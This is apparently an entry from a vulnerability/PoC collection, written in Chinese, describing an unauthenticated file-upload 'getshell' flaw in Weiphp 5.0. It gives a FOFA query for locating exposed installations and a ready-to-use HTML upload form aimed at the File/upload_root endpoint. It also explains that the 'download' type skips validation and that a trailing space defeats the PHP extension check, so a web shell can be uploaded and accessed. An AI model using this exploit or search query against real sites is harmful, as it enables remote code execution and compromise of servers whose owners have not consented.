





# Weiphp5.0上传getshell

## 漏洞描述

Weiphp5.0存在文件上传漏洞，可直接getshell

## 漏洞影响

> Weiphp5.0

## FOFA

> body=”weiphp5.0”

## 漏洞复现

首先在application\common.php 该文件发现上传函数，其验证方式为type=picture，如果type=picture则进行文件验证。

 

搜索该函数，发现file.php调用该函数，并且type为download，type为download则不进行验证，最后追踪upload函数看看是否调用该函数。

 

发现调用该函数，并且返回json数据

  

###构造html表单提交上传

```
<html>

<body>

<form action="http://127.0.0.1/weiphp/public/index.php/home/File/upload_root" method="post"

enctype="multipart/form-data">

<label for="file">Filename:</label>

<input type="file" name="download" id="file" />  

<br />

<input type="submit" name="submit" value="Submit" />

</form>

</body>

</html>
```

用表单进行提交，上传成功（由于该代码有验证是否为php，所以空格绕过即可）

 

进行访问，可以看到访问成功。



